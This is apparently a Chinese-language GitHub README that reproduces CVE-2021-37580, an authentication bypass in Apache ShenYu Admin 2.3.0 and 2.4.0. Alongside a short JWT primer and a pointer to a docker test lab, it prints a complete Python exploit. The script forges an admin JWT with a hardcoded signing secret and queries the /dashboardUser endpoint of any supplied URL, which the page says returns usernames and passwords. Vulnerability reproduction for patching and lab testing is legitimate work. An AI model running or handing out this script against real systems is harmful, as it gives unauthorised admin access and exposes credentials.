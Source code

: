 # CVE-2021-37580 Apache ShenYu身份验证绕过漏洞

Apache ShenYu Admin爆出身份验证绕过漏洞，攻击者可通过该漏洞绕过JSON Web Token (JWT)安全认证，直接进入系统后台。 Apache ShenYu 是应用于所有微服务场景的，可扩展、高性能、响应式的 API 网关解决方案。

Apache ShenYu Admin 存在身份验证绕过漏洞。 ShenyuAdminBootstrap 中 JWT 的错误使用允许攻击者绕过身份验证，攻击者可通过该漏洞直接进入系统后台。

## 影响版本

Apache ShenYu 2.3.0

Apache ShenYu 2.4.0

## 复现

### JWT是什么

参考 http://www.ruanyifeng.com/blog/2018/07/json_web_token-tutorial.html

JWT 的三个部分依次如下。三部分由`.`

> - Header（头部）
> - Payload（负载）
> - Signature（签名）

类似这个样子 `Header.Payload.Signature`

### 验证

>  可以使用这个环境 `docker pull vulfocus/apache_shenyu-ce_2021_37580:latest`

>  也可以通过这个  http://vulfocus.fofa.so/  进行测试。



验证EXP，来自https://github.com/Liang2580/CVE-2021-37580/blob/main/CVE-2021-37580.py

需要安装依赖

```bash
pip install pyjwt
pip install requests
```



```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
##pip install Pyjwt

import requests
import re
import time
from jwt import PyJWT


def generateToken():
    headers = {
        "alg": "HS256",
        "typ": "JWT"
    }
    salt = "2095132720951327"
    exp = int(time.time())
    payload = {
        "userName": 'admin',
        "exp": exp
    }
    token = PyJWT().encode(payload=payload, key=salt,algorithm='HS256', headers=headers)
    return token


if __name__ == "__main__":
    import sys
    try:
        url=sys.argv[1]
    except:
        print("Usage: %s http://www.baidu.com")
        exit(0)
    if isinstance(url,str):
        url1 = url + '/dashboardUser'
        headers = {
            'User-Agent': 'Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:93.0) Gecko/20100101 Firefox/93.0',
            'X-Access-Token': generateToken()
        }
        try:
            response = requests.get(url1, headers=headers, verify=False, timeout=3).json()
            print(response)
        except:
            print("没有该漏洞")
        
```

假设上面代码的文件叫 `CVE-2021-37580.py`，使用方法为`python CVE-2021-37580.py http://1.1.1.1`

![image-20211123164332350](README.assets/image-20211123164332350.png)

效果就是这个样子，可以获取到用户名和密码。



## 参考

1. https://nosec.org/home/detail/4906.html
2. https://github.com/Liang2580/CVE-2021-37580/

